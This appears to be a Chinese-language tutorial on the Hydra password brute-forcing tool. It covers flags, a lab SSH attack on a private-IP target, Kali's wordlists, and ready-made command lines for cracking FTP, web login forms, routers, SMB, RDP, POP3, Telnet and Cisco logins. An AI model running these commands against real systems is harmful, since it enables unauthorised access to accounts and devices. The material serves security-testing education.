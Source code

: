 ## 一、hydra简介

Hydra是一款非常强大的暴力破解工具，它是由著名的黑客组织THC开发的一款开源暴力破解工具。Hydra是一个验证性质的工具，主要目的是：**展示安全研究人员从远程获取一个系统认证权限。**



目前该工具支持以下协议的爆破：
AFP，Cisco AAA，Cisco身份验证，Cisco启用，CVS，Firebird，FTP，HTTP-FORM-GET，HTTP-FORM-POST，HTTP-GET，HTTP-HEAD，HTTP-PROXY，HTTPS-FORM- GET，HTTPS-FORM-POST，HTTPS-GET，HTTPS-HEAD，HTTP-Proxy，ICQ，IMAP，IRC，LDAP，MS-SQL，MYSQL，NCP，NNTP，Oracle Listener，Oracle SID，Oracle，PC-Anywhere， PCNFS，POP3，POSTGRES，RDP，Rexec，Rlogin，Rsh，SAP / R3，SIP，SMB，SMTP，SMTP枚举，SNMP，SOCKS5，SSH（v1和v2），Subversion，Teamspeak（TS2），Telnet，VMware-Auth ，VNC和XMPP。

对于 HTTP，POP3，IMAP和SMTP，支持几种登录机制，如普通和MD5摘要等。

由于Kali中自带Hydra，所以怎么安装就不讲了，下面直接讲如何用它。

## 二、hydra使用方法

```text
语法：Hydra 参数 IP 服务
```



```text
参数：
-l login 小写，指定用户名进行破解
-L file 大写，指定用户的用户名字典
-p pass 小写，用于指定密码破解，很少使用，一般采用密码字典。
-P file 大写，用于指定密码字典。
-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-M file 指定目标ip列表文件，批量破解。
-o file 指定结果输出文件
-f 找到第一对登录名或者密码的时候中止破解。
-t tasks 同时运行的线程数，默认是16
-w time 设置最大超时时间，单位
-v / -V 显示详细过程
-R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
-x 自定义密码。
```



```text
service：指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
注意：
1.自己创建字典,然后放在当前的目录下或者指定目录。
2.参数可以统一放在最后，格式比如hydra ip 服务 参数。
3.如果能确定用户名一项时候，比如web登录破解，直接用 -l就可以，然后剩余时间破解密码。
4.缺点，如果目标网站登录时候需要验证码就无法破解。
5.man hydra最万能。
6.或者hydra -U http-form等查看具体帮助。
```

## 三、案例分析

**暴破ssh登录密码**

**环境介绍**

> 攻击机：kali
> 装有hydra工具
> 靶机：192.168.154.131
> 安装ssh服务，正常运行

为了测试方便，我们创建两个简单的字典文件，如下：

![img](./assets/v2-74b1e34674d100d1b805cf1bd8fe4768_720w.webp)

**开始爆破**

根据命令参数，组织参数格式如下：

```text
root@kali:/mnt# hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh
```

**破解成功**

因为字典数量比较少，我们可以轻易的破解成功，但是实际情况下，我们可能需要很久。

![img](./assets/v2-fa6cfa903a05d47d81e457e6ee0198cb_720w.webp)

**测试登录**

使用得到的用户名/密码登录服务器，登录成功

![img](./assets/v2-f33fc7af70d32cb59f6087fc5b31d381_720w.webp)

## 三、各种协议破解汇总

**FTP协议破解**

```text
破解ftp：
 
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v
```

**http协议破解**

```text
get方式提交，破解web登录：
 
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns -f IP地址 http-get /admin/index.php
 
post方式提交，破解web登录：
 
hydra -f -l 用户名 -P 密码字典 -V -s 9900 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"
 
 
#/index.php …这个是登录的 url
#后门是POST的数据 其中的用户名密码使用 USER PASS 来代替
#然后是如果登录出错 会出现的字符 。。。然后开始破解
```

**https协议破解**

```text
破解https
 
hydra -m /index.php -l 用户名 -P 密码字典.txt IP地址 https
```

**路由器破解**

```text
hydra -l admin -x 6:10:1a.~!@#$%^&()-= -t 8 192.168.1.1 http-get /
-l admin 为尝试破解的用户名。
 
# -x 6:10:1a. 表示枚举的密码由 数字、小写字母和单字符’.'等等组成，长度为 6 - 10 位。-t 8 表示分 8 个并行任务进行爆破尝试。192.168.1.1 为 Router 地址。http-get 为破解方式（协议）
```

**http-proxy协议破解**

```text
破解http-proxy：
 
hydra -l admin -P 字典.txt http-proxy://IP地址
```

**smb破解**

```text
破解smb：
 
hydra -l 用户名字典 -P 密码字典 IP地址 smb
```

**Windows远程桌面**

```text
破解rdp(windows远程登录)：
 
hydra ip地址 rdp -l administrator -P 密码字典.txt -V
```

**邮箱pop3**

```text
破解邮箱pop3：
 
hydra -l 用户名 -P 密码字典.txt my.pop3.mail pop3
```

**telnet破解**

```text
hydra ip地址 telnet -l 用户字典.txt -P 密码字典.txt -t 32 -s 23 -e ns -f -V
```

**语音通讯工具teamspeak**

```text
hydra -l 用户名字典 -P 密码字典.txt -s 端口号 -vV ip teamspeak
```

**cisco**

```text
hydra -P 密码字典 IP地址 cisco
hydra -m cloud -P 密码字典 IP地址 cisco-enable
```

## **四、Kali自带密码字典**

暴力破解能成功最重要的条件还是要有一个强大的密码字典！Kali默认自带了一些字典，在 /usr/share/wordlists 目录下

![img](./assets/v2-4c96b4dad74dbe55647b0d52e202b903_720w.webp)

**dirb**

![img](./assets/v2-7ca4df84b7708042bc40c2e856fe2d73_720w.webp)

```text
big.txt #大的字典
small.txt #小的字典
catala.txt #项目配置字典
common.txt #公共字典
euskera.txt #数据目录字典
extensions_common.txt #常用文件扩展名字典
indexes.txt #首页字典
mutations_common.txt #备份扩展名
spanish.txt #方法名或库目录
others #扩展目录，默认用户名等
stress #压力测试
vulns #漏洞测试
```

**dirbuster**

![img](./assets/v2-2a0b54f21fb812b3bcdd1bb413064cd7_720w.webp)

```text
apache-user-enum-** #apache用户枚举
directories.jbrofuzz #目录枚举
directory-list-1.0.txt #目录列表大，中，小 big，medium，small
```

**fern-wifi**

![img](./assets/v2-77291542d50b240416eb7c39818427fa_720w.webp)

```text
common.txt #公共wifi账户密码
```

**metasploit**

metasploit下有各种类型的字典

![img](./assets/v2-04cc01abdede44c8773abd674a3154a7_720w.webp)

**wfuzz**

模糊测试，各种字典

![img](./assets/v2-50a9b51664f89282fe9b6b232300abf0_720w.webp)